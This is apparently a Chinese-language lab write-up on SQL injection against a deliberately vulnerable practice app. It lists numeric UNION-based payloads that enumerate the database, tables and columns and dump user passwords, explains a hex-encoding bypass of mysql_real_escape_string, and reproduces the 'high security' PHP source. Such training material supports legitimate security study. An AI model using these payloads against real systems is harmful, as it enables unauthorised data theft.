   数字型注入

  ```mysql
  # 获取当前数据库
  1 union select 1,database() #
  
  # 获取数据库中的表
  1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
  
  # 获取表中的字段名
  1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
  1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
  
  # 得到数据
  1 union select group_concat(user_id,first_name),group_concat(password) from users #
  
  # 此处password是密文，需要MD５转换
  ```

  - 获取表中的字段名：`1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`，会报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'users\' #' at line 1`，是因为`mysql_real_escape_string`函数是转义了 SQL 语句字符串中的特殊字符，如输入单引号'则处理时会在其前面加上右斜杠\来进行转义，如果语句错误则输出相应的错误信息。其中受影响的字符如下：`\x00 \n \r \ ' " \x1a`。所以更换注入方式，不要用单引号，可以用 16 进制绕过，将 users 变为 0x7573657273

- high security

  ```php
  <?php    
  
  if (isset($_GET['Submit'])) {
  
      // Retrieve data
  
      $id = $_GET['id'];
      $id = stripslashes($id);
      $id = mysql_real_escape_string($id);
  
      if (is_numeric($id)){
  
          $getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
          $result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
  
          $num = mysql_numrows($result);
  
          $i=0;
  
          while ($i < $num) {
  
              $first = mysql_result($result,$i,"first_name");
              $last = mysql_result($result,$i,"last_name");
              
              echo '<pre>';
              echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
              echo '</pre>';
  
              $i++;
          }
      }
  }
  ?>
  ```

